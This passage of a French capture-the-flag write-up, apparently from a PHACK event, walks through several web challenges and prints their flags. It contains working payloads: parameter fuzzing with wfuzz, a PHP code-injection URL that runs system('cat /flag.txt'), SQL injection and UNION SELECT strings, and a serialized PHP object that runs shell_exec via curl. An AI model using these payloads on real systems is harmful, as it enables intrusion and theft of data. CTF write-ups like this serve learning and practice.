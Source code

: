 trouver le paramètre uuid:
```
$ wfuzz -c -w directory-list-lowercase-2.3-big.txt --hs "manquant !" "http
://fuzz-me.phack.fr/api/user?FUZZ=test"
```

L'url: http://fuzz-me.phack.fr/api/user?uuid=872e0a41-99e5-4e76-a5e7-96093757fa81 -> donne les infos de l'admin

**PHACK{th1s_1s_H0w_w3_d0_enum3r4ti0n_m4n}**

## X-tension
On nous demande de télécharger une extension Chrome.
Avec une autre extension: https://chrome.google.com/webstore/detail/chrome-extension-source-v/jifpbeccnghkjeaalbbjmodiffmgedin/related
On peut lire le code source, et le flag est en clair dans content.js

**PHACK{CRX_F1l3_R3v3rs1nG}**

## Harduino

Simulateur d'affichage LCD Arduino, avec un code PHP pour donner le texte à afficher.

On peut passer le message à afficher : http://harduino.phack.fr/workspace/apps/arduino/arduino.php?message=test

il faut utiliser le preg_replace pour lire le flag.
RCE : 
*http://harduino.phack.fr/workspace/apps/arduino/arduino.php?message=%22.system(%27cat /flag.txt%27).%22*

**PHACK{W4SNT_DAT_HARD_AFT3R_ALL}**

## VOD
Injection SQL:
xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337/platform.php?id=' OR '1'='1

' OR 1=2 UNION SELECT 1,2,group_concat(flag) FROM s3cr3t WHERE '1

**J'ai oublié de noter le flag**

## PHackTory
Confirmation par me créateur du chall qu'il faut DirBuster.
Hint : il faut trouver la bonne extension

-> zip
backup.zip

```
$ curl -v --data "is=1539&cool=test" "http://phacktory.phack.fr/?what=is&the=flag&please=O%3A9%3A%22PHackTory%22%3A3%3A%7Bs%3A4%3A%22type%22%3Bs%3A28%3A%ho%20shell_exec%28%27ls%20-la%27%29%3B%2F%2F%22%3Bs%3A8%3A%22quantity%22%3Bi%3A1%3Bs%3A5%3A%22order%22%3Bs%3A5%3A%22milky%22%3B%7D"
...
drwxrwxrwx 1 www-data www-data   4096 Apr  1 23:03 .
drwxr-xr-x 1 root     root       4096 Mar 31 09:51 ..
-rw-r--r-- 1 root     root     190706 Apr  1 22:56 backup.zip
-rw-r--r-- 1 root     root        771 Apr  1 22:56 config-126546845171616835186.php
drwxr-xr-x 2 root     root       4096 Apr  1 23:03 images
-rw-r--r-- 1 root     root       3346 Apr  1 22:56 index.php
```
